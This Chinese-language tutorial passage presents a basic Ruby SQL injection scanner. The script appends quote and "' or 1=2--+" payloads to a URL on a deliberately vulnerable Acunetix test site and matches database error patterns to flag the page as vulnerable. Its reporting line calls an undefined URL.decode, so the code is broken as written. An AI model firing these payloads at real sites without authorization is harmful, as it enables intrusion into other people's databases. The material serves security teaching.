 这是一个非常基本和简单的 SQL 注入实体扫描器，尽可能地完善它！

```
#!/usr/bin/env ruby
# KING SABRI | @KINGSABRI
# Very basic SQLi scanner!
#
require 'net/http'

# Some SQLi payloads
payloads =
    [
      "'",
      '"',
      "' or 1=2--+"
    ]

# Some database error responses
errors =
    {
      :mysql => [
                 "SQL.*syntax",
                 "mysql.*(fetch).*array",
                 "Warning"
                ],
      :mssql => [
                 "line.*[0-9]",
                 "Microsoft SQL Native Client error.*"
                ],
      :oracle => [
                  ".*ORA-[0-9].*",
                  "Warning"
                 ]
      }

# Try a known vulnerable site
uri  = URI.parse "http://testphp.vulnweb.com/artists.php?artist=1"

# Update the query with a payload
uri.query += payloads[0]

# Send get request
response = Net::HTTP.get uri

# Search if an error occurred = vulnerable
puts "[+] The #{URL.decode(uri.to_s)} is vulnerable!" unless response.match(/#{errors[:mysql][0]}/i).nil? 
```

在这个 URL 上尝试一下 ([http://testasp.vulnweb.com/showforum.asp?id=0](http://testasp.vulnweb.com/showforum.asp?id=0))

结果
